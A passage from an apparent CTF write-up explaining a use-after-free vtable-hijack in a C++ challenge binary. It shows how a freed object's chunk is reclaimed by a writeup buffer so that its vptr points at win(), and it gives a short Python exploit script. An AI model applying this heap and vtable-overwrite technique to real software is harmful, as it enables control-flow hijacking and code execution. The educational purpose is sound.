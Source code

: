 Well yes... but actually no... Objects in C/C++ are merely represented in memory as a sequence of bytes. You can interpret a sequence of bytes as any type. That's why casting across types is a thing in C/C++—albeit potentially dangerous. (In C, you'd use the usual cast `(type*)&obj`. In C++, you'd use `reinterpret_cast<type*>(&obj)`.)

Now when we call `solveChallenge`, the line `downloaded[index]->solve()` will treat our chunk as a `challenge*`. It was originally *supposed* to be a `char*`, since we submitted a writeup. But since types don't matter in the assembly/memory level, the chunk is now a `challenge*` for all intents and purposes.

Since the chunk is treated as a `challenge*`, the assembly will try to double-deref the vptr... which is our payload from submitting the writeup.

Boom! Exploit.

If we continue running the program, a SIGSEGV occurs since it tries to dereference `0x4444434342424141` (which is `"AABBCCDD"`, but packed to 64 bits).

![](/assets/img/posts/misc/ctf/ctf-sim/ctf-sim-9-sigsev.jpg){:.w-100}
{:.center}

Later on, we'll use `win_addr` instead of `"AABBCCDD"` for our payload; so that when the `solve()` virtual function does its magic, it will call `win()` instead.

#### Altogether
Combining our knowledge of vtables/vpointers with a little bit of heap knowledge, we come up with the following exploit:

```py 
# downloaded[0] = new forensics;   (vptr points to forensic's vtable.)
download_chal(1, 0)

# delete downloaded[0];    (chunk is moved to tcache/fast bin. downloaded[0] itself is unchanged!)
solve_chal(0)

# Chunk is allocated-- reusing the chunk previously deallocated.
# Overwrite vptr of downloaded[0] with &(&win).
submit_writeup(p64(elf.sym['win_addr']), 0x10)

# downloaded[0]->solve() triggers double dereference (due to virtual function resolution) and calls win()!
solve_chal(0)
```


[doublefree]: https://heap-exploitation.dhavalkapil.com/attacks/double_free
[vtable-so]: https://stackoverflow.com/a/99341/10239789
[vtable-pablo]: https://pabloariasal.github.io/2017/06/10/understanding-virtual-tables/
[gb-vtable-cpp]: https://godbolt.org/#z:OYLghAFBqd5QCxAYwPYBMCmBRdBLAF1QCcAaPECAMzwBtMA7AQwFtMQByARg9KtQYEAysib0QXACx8BBAKoBnTAAUAHpwAMvAFYTStJg1DIApACYAQuYukl9ZATwDKjdAGFUtAK4sGIM6SuADJ4DJgAcj4ARpjE/gDspAAOqAqETgwe3r7%2ByanpAiFhkSwxcWaJdpgOGUIETMQEWT5%2BAVU1AnUNBEUR0bEJtvWNzTltwz2hfaUDFQCUtqhexMjsHOYAzKHI3lgA1CYbbk4KBMSYrIfYJhoAgje3O0wKCnvKDYwEB/FWd0leUVoeGQIAee3Be1CXySH0EAH10Ex6odfrcIW9YQQIFC9oj6nM9iA9jDzvC8UwTD9yZSACLfKzxGkPMEQgBueEaXjEe1ZqDw6D2/FQ2MEe1UBMpFj2p3QIBQSy%2BhzcSoOZjMJM%2Bewg5jMByOKo1ZKRTD1yqOqrMBKFRJ1ppVqjt5plctctBR3yZd3R7M53N5/L2UQaIq%2B4vp0oIsvlXkV%2BvNOsNX21asdbmJmIRxtTFoJQbiFuzDqVKudIFd7tpzMZKIeTxeexpsTwrMwAqJ/0BwIxpMVPweHaBIJZ4JxWGIzdbmeRG1R6Mb45b6BDuONpEhovJlsJ3c%2BkupjLXY4n6CnFKpxrMtPplbuw55HIIXNoPL5Arzy7DkojUbQMezOqPRctVtYtzUTU9/zVNcQLjNNAMnclIK3PMbRTUC0yLWDvxdBh0DdGcPSrJkZ2ZO4cRYJhQggCU%2By9CF3h7YlJS4SsSLo8EkgAOiFCBLXdAB6fid0EOUhTvLj3w2OYBKEhjPjlPNSLRCF52PXFJQAVjXAA2VjZwhdBuNQYV4mkgjBOEghROMu9DPfAAOMypQs1TFwUhoiI4BZaE4DTeD8DgtFIVBOGVSxrGlJYVkwVUNh4UgrMCryFgAaxADSNH0ThJH8zReBCjheAUEBMsSrQFjgWAYEQeUWCSOhYnISg0Dqhq4mALgzC4Pg6AIWJiogKI8tIKJQgaABPTh4pathBAAeQYWhJqS0gsAooxxBW/BzhqFtipWzBVGqGM1iCqFMB8lagSiYgJo8LBhrOPAWCmry%2BAMYAFAANTwTAAHc5qSRhXpkQQRDEdgpFB%2BQlDUYbdG6gwjBQaxrH0PAomKyAFlQJJHAEfaiou6p8b8CBXFGPxuuCKYSjKPQUjSUnKYZ/JSd6OmBm69pSa6EZPBaPQedqCYOf6OJuYmFnJe6MWZglhYFCi1Y9DOTA1h4bzfNylaCtUeztIAWm0yQ9mAZBkD2TrOK4LUwqsSw11wQgSFi7q9g8Vr6GIN25l4MrktINKMqyjgctIF6Q4CoKCqKkqEryirqogJAFX%2BAgmogFr6u98JWDWfWjZNs2Latswbd4VsXfHWVuv4MHRHEKH65hlR1BWhHSD%2B26klerWOD80ho/yzg5pjdO9lQKgxQN43TfNy3rdtiBPZz2Jff9xOFgQC4x0ofvw8jzLh%2BCzg49Kreg/SzLLo2HWY7PhOkrmfuzHvkfCqf8qFhbYg0mcSQQA
[gb-vtable-c]: https://godbolt.org/#z:OYLghAFBqd5QCxAYwPYBMCmBRdBLAF1QCcAaPECAMzwBtMA7AQwFtMQByARg9KtQYEAysib0QXACx8BBAKoBnTAAUAHpwAMvAFYTStJg1AB9U8lJL6yAngGVG6AMKpaAVxYMQAJgDMpBwAyeAyYAHLuAEaYxN4AHKQADqgKhLYMzm4e3n5JKTYCQSHhLFExXvGWmNZpQgRMxAQZ7p6%2BFphW%2BQy19QSFYZHRcRZ1DU1ZrQojvcH9JYPlAJQWqK7EyOwcAKS%2BwchuWADUmz6Ok/ioAHQIx9ibGgCCd/cEAJ4JmFhUBwBuqHjoBwgACoqK4GMgEgRiMYCAsIAtjgAhA4AehRBwAKm9MAcxHgmAoDvxiESwdUBAcksECNEFBcnk9Xu9PgdJsRXNYjgB2RFPA780ngyHQghAn51CL0JF8gXUyn1RgEYzoJh1aUPTZcgAiB2UCsE6seDyZH0wXzZHII3N5DwFgohUJhYu%2BEqlPht9ztcoS%2BqVKrV7tR6IAkgwENFCB8icRUCx5cRFfTbbLBAcsMQ8N8PsrVUxDZqdVqI1n0PmHmiDtgGO5oqq0gdUF9vngGq4xPbOnSnox3NaDgA1ABiclCjgxwYA8qFjIOJxPSAPh6Px1PjIj7gAlblasv3CvOcEJmkHPAsBL0NiCOsCLsPX7/eOK0z8VAQPUJwRihILuWqBZ9hIM0EKgIG2LwfQ/K1QK8ABWdB/xfEAjlg0sYMcBgwIXBIAFobggp9/SYBc/yRbcnnvAF8MEUwInqN9fS/H9Uz/ACgIIECwKoqDtjg/9aJiZC4M2NCMK8LwsNwnxsC4nM6mIhFAwLci/gBdNM2zYx%2BIgIsMxLMV0CYq0WM1ZFAOpDixLUktAR4gzBPgg5%2BKQ2zhPQzC00k6TfVkoiPJuKzs0I%2BTSKUjVy3RfsWwINtaBPM8L0Va8GEJCAE3wBNrAWJN7goolUFfd9FUYk9mP/EzKU8l0mElTBhMRIcRzHSdp1nCdhK1KAKKBBZvwOEjFO1ZSHy0wrP0pQy%2BrKnkKpuKqarqhrl2atdN3azqVO63r%2BuRUKjT3dE5voNMzWCVIb2y0EhUdK0ZOMQ7apg3kYJ1Y4Xp5GV%2BVul9SA%2Bx9qM0%2Bofo1Qb3QZB5LodEVjt0jT7rq9qjh8N6PTtL78qBz0BQC9AaMBhkQY9J45RYJhgggCippRgVRpuxHkdu%2B6Fy4JTQeTfkX2ggA2XqvAU5EKzR1Bfq07ZuYXHw%2BaDP6lQB4hst%2BnT1NUunrWx0xGYOGCF05lmqfZ/KoBp7rRbsrlJYF7zjBfYW6PoyDja8Tm7Nic30TV2X5e1DglloTgYN4TwOC0UhUE4RxWRWNYcW2HweFIAhNG9pYAGsQBgjR9E4SQA8TkPOF4BQQAzhOg%2B90g4FgGBEBQWMEjoaJyEoNAz3rmJkGALgvC4Pg6BpYhC4gCJc4iYJ6heTg4%2Bby8CAnBhaHH0vSCwEmjHERf0qqGws0LxfMFUKpXBpXPqXaXPaDwCJiDH5wsFzqFTwnsuqAMYAFEizAAHcJ3eQO4/4QQRBiHYFIGQghFAqHUIvXQ3cDBGBAKYYw5hz4RELpAJYqBIRpB3gXdom80j2AYE4FwzQ9CBBmMUUoehchnXSMQrI3dqGdD6BQwY3dKjki6FMMYng2G4I4d0BozCBgxDYVwuhPDhg9CEXMERSwFCR3WHoKEmANg8B9n7HOi9Q4cFULETm2FOaSAOMAZAyADidwuFwQEjgFy4EICQZCscFzOBbvQEkMcuALF4CXLQCwU5pwzr7Dg2dSAsACaQQOwdtEFyLvHROSwK7VxWAQBIh9G4QGbnXNxoRWAbF0fowxxjTHmK8JY3gHx7EZnQHof%2BwhRDiBAbU8Bahc7QNIB/K%2BCRH7qI4P7CJudtETkPqkq0jY%2Bp6IMUYkxZiLFWIgC4rJ0RHGeO8fEpY4YmDpkoD0kJYT079K0fnCwsSfFJ1IKnfZQSfCaKiUc05fjM4cC8Dc3g0S4mlweVmfu%2BDJBAA%3D